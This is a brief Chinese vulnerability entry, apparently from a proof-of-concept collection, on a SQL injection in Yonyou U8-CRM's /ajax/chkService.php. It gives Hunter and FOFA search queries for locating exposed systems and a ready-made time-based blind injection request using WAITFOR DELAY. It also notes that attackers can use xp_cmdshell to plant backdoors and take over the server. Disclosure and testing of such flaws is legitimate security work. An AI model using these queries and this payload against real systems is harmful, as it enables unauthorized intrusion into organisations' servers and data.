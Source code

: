 ## 用友U8-CRM系统chkService.php存在SQL注入漏洞

用友U8-CRM系统 /ajax/chkService.php 文件存在SQL注入漏洞，未经身份验证的攻击者通过漏洞执行任意SQL语句，调用xp_cmdshell写入后门文件，执行任意代码，从而获取到服务器权限。

## hunter

```jade
app.name="用友 CRM"
```

## fofa

```jade
title="用友U8CRM"
```

## poc

```javascript
GET /ajax/chkService.php?Action=chkAccountNumExists&accountNum=1%27;WAITFOR+DELAY+%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: PHPSESSID=bgsesstimeout-;
Connection: close
```

